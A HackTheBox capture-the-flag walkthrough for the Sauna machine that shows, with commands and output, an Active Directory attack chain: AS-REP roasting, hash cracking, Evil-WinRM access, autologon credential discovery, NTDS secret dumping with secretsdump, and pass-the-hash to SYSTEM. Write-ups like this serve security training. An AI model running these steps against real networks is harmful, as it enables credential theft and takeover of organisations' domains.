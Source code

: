 ```yaml
---
title: "HackTheBox: Sauna | Walkthrough"
date: 2020-08-16
categories: [hackthebox]
tags: [active-directory, kerberos, impacket, windows, privesc]
---
```


## Enumeration

```bash
nmap -A 10.10.10.175 -o nmap
````

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap
3269/tcp open  tcpwrapped
```

The website reveals some employee names. Using the convention of **first initial + last name**, we can build a potential username list:

```text
fsmith
scoins
btaylor
sdriver
hbear
skerb
```

## Exploiting Kerberos (AS-REP Roasting)

Using **impacket-GetNPUsers** to test for users without pre-authentication:

```bash
cd /usr/share/doc/python3-impacket/examples
./GetNPUsers.py -usersfile ~/hackthebox/sauna/users.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
```

This yields an AS-REP hash. Save it to a file:

```bash
vi ~/hackthebox/sauna/hash
```

Now crack it with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep ~/hackthebox/sauna/hash
```

We recover:

```
fsmith : Thestrokes23
```

## User Shell

Login with Evil-WinRM:

```bash
./evil-winrm.rb -i 10.10.10.175 -u fsmith -p Thestrokes23
```

We now have a shell as `fsmith`.

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Desktop> net user
```

```
Administrator  FSmith  Guest
HSmith         krbtgt  svc_loanmgr
```

We see a **service account**: `svc_loanmgr`.

Checking details:

```powershell
*Evil-WinRM* PS C:\Users\FSmith\Desktop> net user svc_loanmgr
```

The account is active, never expires.

## Privilege Escalation

Let’s upload **winPEAS** to enumerate:

```powershell
upload /tools/winPEAS.exe .
.\winPEAS.exe
```

Output shows **AutoLogon credentials**:

```
DefaultDomainName :  EGOTISTICALBANK
DefaultUserName   :  EGOTISTICALBANK\svc_loanmgr
DefaultPassword   :  Moneymakestheworldgoround!
```

Perfect — valid credentials!

## Extracting Secrets

Test credentials with **lookupsid.py**:

```bash
./lookupsid.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:"Moneymakestheworldgoround!"@10.10.10.175
```

It works. Next, try dumping hashes:

```bash
./secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:"Moneymakestheworldgoround!"@10.10.10.175
```

We successfully dump the **NTDS.dit** secrets, including the **Administrator hash**:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
```

## Administrator Shell

Use **Pass-the-Hash** with psexec:

```bash
./psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```

And we land a **SYSTEM shell**. Rooted ✅

